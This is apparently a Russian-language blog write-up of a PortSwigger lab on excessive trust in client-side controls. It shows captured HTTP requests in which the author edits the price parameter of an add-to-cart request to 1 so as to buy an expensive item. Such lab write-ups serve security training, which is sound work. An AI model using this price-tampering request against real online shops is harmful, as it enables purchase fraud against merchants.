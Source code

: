 ```yaml
---
title: "Excessive trust in client-side controls"
date: 2025-10-16
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls"
classes: wide
---
```


Для решения необходимо купить `Lightweight l33t leather jacket`. Для входа в учетную запись есть креды `wiener`:`peter`.

```
https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
```

# Solution

Как всегда нужно осмотреться. Залогинюсь в личный кабинет. На балансе даже есть 100$. Попробую что-то купить. У нашей мечты `productid=1`. Думаю, что это может пригодиться.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/1.png){: height="200" .align-center}

Нужно войти в аккаунт. Креды я дам. Нужно купить жилет. Денег я не дам.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/2.jpeg){: height="200" .align-center}

Печаль(

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/3.png){: height="200" .align-center}

Попробую купить что-то подешевле. Вот такую штуку купить получилось. 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/4.png){: height="200" .align-center}

Но запрос на покупку мне ничего не сказал. 

```http
POST /cart/checkout HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers

csrf=eBZT5QduV47JhZVmKdgk33wFaupkZBdi
```

В истории запросов я нашел вот это:

```http
POST /cart HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=133700
```

Не знаю зачем, но в запросе добавления в корзину передается цена. А мне и не сложно потестить:

```http
POST /cart HTTP/2
Host: 0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Cookie: session=TU5zBxHL8jP3KWpsAqeJDml7qleXEsEL
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: https://0a9800e003497ec381dbfcaa00f800b9.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=1&redir=PRODUCT&quantity=1&price=1
```

Меня устраивает такая цена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/5.png){: height="200" .align-center}

Решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_excessive-trust-in-client-side-controls/6.png){: height="200" .align-center}
